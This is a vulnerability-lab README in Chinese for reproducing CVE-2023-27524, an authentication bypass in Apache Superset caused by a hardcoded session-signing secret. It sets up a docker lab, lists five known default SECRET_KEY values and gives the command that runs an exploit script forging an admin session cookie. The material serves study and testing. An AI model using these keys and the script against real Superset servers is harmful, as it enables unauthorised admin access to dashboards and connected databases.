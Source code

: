 # Apache Superset 硬编码JWT密钥导致认证绕过漏洞（CVE-2023-27524）

Apache Superset是一个开源的数据探索和可视化平台，设计为可视化、直观和交互式的数据分析工具。

Apache Superset存在一个硬编码JWT密钥漏洞（CVE-2023-27524）。该应用程序默认配置了一个预设的`SECRET_KEY`值，用于签名会话Cookie。当管理员未更改这个默认密钥时，攻击者可以伪造有效的会话Cookie并以任意用户（包括管理员）身份进行认证。这允许未授权访问Superset仪表盘、连接的数据库，并可能导致远程代码执行。

参考链接：

- <https://www.horizon3.ai/attack-research/disclosures/cve-2023-27524-insecure-default-configuration-in-apache-superset-leads-to-remote-code-execution/>
- <https://github.com/horizon3ai/CVE-2023-27524>

## 环境搭建

执行以下命令启动Apache Superset 2.0.1服务器：

```
docker compose up -d
```

服务启动后，可以通过`http://your-ip:8088`访问Superset。默认登录凭据为admin/vulhub。

## 漏洞复现

这个漏洞存在的原因是Superset使用以下硬编码的`SECRET_KEY`作为密钥来签名Cookie：

- `\x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h` (版本 < 1.4.1)
- `CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET` (版本 >= 1.4.1)
- `thisISaSECRET_1234`
- `YOUR_OWN_RANDOM_GENERATED_SECRET_KEY`
- `TEST_NON_DEV_SECRET`

使用[CVE-2023-27524.py](CVE-2023-27524.py)伪造管理员（用户id为1）会话Cookie：

```bash
# Install dependencies
pip install -r requirements.txt

# Forge an administrative session (whose user_id is 1) cookie
python CVE-2023-27524.py --url http://your-ip:8088 --id 1 --validate
```

该脚本尝试使用已知的默认密钥破解会话Cookie。如果成功，它将伪造一个新的会话Cookie，其中user_id=1（通常是管理员用户），并验证登录。

![](1.png)

使用这个伪造的Cookie在浏览器中访问Superset仪表盘：

![](2.png)
